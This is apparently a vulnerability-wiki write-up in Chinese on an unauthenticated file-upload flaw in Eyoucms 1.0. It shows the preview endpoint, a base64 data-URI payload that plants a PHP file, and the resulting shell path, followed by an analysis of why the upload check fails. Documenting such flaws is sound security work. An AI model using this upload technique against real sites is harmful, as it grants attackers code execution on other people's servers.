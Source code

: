 Eyoucms 1.0 前台getshell
========================

一、漏洞简介
------------

官网：http://www.eyoucms.com/download/Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

二、漏洞影响
------------

三、复现过程
------------

老样子：先讲如何利用

    url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

    构造: <?php phpinfo;

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId24.png)

    post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId25.png)

Shell:
http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId27.png)

### 原理分析

漏洞文件： eyoucms1.0\\application\\api\\controller\\Uploadify.php漏洞函数：preview()

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.0前台getshell/media/rId30.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的
表示data:image/ 居然还可以不是图片？好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/
只能是图片。

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh

